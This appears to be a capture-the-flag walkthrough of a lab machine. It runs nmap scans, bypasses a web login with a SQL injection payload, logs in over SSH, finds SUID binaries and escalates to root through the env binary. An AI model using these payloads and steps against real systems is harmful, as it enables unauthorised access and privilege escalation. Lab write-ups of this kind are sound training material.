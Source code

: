 ![image](https://github.com/user-attachments/assets/231e8b90-fc33-4602-be7b-ef355e7ccefc)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250116105358](https://github.com/user-attachments/assets/03259d79-a703-4d3b-a710-a520d08db66e)
![Pasted image 20250116105423](https://github.com/user-attachments/assets/9fd00a48-60c5-44c6-924f-4a7e39b6e08f)
![Pasted image 20250116105507](https://github.com/user-attachments/assets/6550020d-d7f4-489f-aa29-9031001c65f9)

```bash
whatweb https://172.17.0.2/index.php
```
![Pasted image 20250116105652](https://github.com/user-attachments/assets/b2bc2d97-6843-45e1-964e-411fadf2d8f6)

## **we work port 80**

![Pasted image 20250116105741](https://github.com/user-attachments/assets/afbacc4b-5b2f-44ec-8a14-52ed368b9430)
![Pasted image 20250116111811](https://github.com/user-attachments/assets/8df8f5d8-73de-4a3e-8144-5fe65a433816)

## **we will try to bypass the login using a parameter that tells it that it can be any user or the truth that 1=1 which for practical purposes would give us the same result as entering the valid user.**
```SQL
User' or 1=1-- -
```
![Pasted image 20250116112009](https://github.com/user-attachments/assets/1d391c93-1eea-464c-8c6f-3d6301102991)

## **now we will log in by SSH with the user and password we got**
```bash
ssh dylan@172.17.0.2
```
![Pasted image 20250116112325](https://github.com/user-attachments/assets/26628013-68c3-4deb-969d-d5940ae2b1ae)

## **we are already inside now we will escalate privileges**
```bash
find / -perm -4000 2>/dev/null
```
![Pasted image 20250116112458](https://github.com/user-attachments/assets/203e1bd6-626f-48fd-be13-2d7840b0bdcc)

## **we apply TTY treatment**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

![Pasted image 20250116112558](https://github.com/user-attachments/assets/ad4c23a0-6005-4ac8-bfa6-bbf35aa28727)
```bash
/usr/bin/env /bin/sh -p  # esta es la ruta absoluta
```
![Pasted image 20250116114050](https://github.com/user-attachments/assets/9530f5c4-2ba5-49e8-88ab-f55e4e4cda96)

















